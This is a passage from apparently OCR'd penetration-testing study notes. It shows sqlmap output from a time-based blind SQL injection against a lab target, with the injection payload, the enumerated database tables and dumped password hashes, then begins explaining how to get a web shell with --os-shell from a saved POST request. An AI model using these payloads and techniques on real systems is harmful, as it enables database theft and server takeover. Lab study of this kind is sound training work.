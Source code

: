 ```bash
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[14:23:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, Apache 2.4.52, PHP 7.3.33
back-end DBMS: MySQL >= 5.0.12
[14:23:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:23:52] [INFO] fetching current database
[02:23:52 PM] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]
[14:25:26] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[14:25:26] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)

[14:25:47] [INFO] adjusting time delay to 2 seconds due to good response times
offsec
[14:27:01] [INFO] fetching tables for database: 'offsec'
[14:27:01] [INFO] fetching number of tables for database 'offsec'

[02:27:01 PM] [INFO] retrieved: 2
[02:27:11 PM] [INFO] retrieved: customers
[02:29:25 PM] [INFO] retrieved: users
[14:30:38] [INFO] fetching columns for table 'users' in database 'offsec'
[02:30:38 PM] [INFO] retrieved: 4
[02:30:44 PM] [INFO] retrieved: id
[02:31:14 PM] [INFO] retrieved: username
[02:33:02 PM] [INFO] retrieved: password
[02:35:09 PM] [INFO] retrieved: description
[14:37:56] [INFO] fetching entries for table 'users' in database 'offsec'
[14:37:56] [INFO] fetching number of entries for table 'users' in database 'offsec'
[02:37:56 PM] [INFO] retrieved: 4
[02:38:02 PM] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[14:38:24] [INFO] adjusting time delay to 1 second due to good response times
this is the admin
[02:40:54 PM] [INFO] retrieved: 1
[02:41:02 PM] [INFO] retrieved: 21232f297a57a5a743894a0e4a801fc3
[02:46:34 PM] [INFO] retrieved: admin
[02:47:15 PM] [INFO] retrieved: try harder
[02:48:44 PM] [INFO] retrieved: 2
[02:48:54 PM] [INFO] retrieved: f9664ea1803311b35f
...
```
### Getting a webshell
We can use the `--os-shell` flag to tell `sqlmap` to establish a [web-shell](../web-shell.md). If our target is vulnerable to a UNION attack, and the vulnerable parameter is `item` on the `search` endpoint, then to get a webshell, we can supply `sqlmap` *with a [`POST`](../../../../www/HTTP.md#`POST`) request* saved to a file.
```HTTP
POST /search.php HTTP/1.1
Host: 192.168.50.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```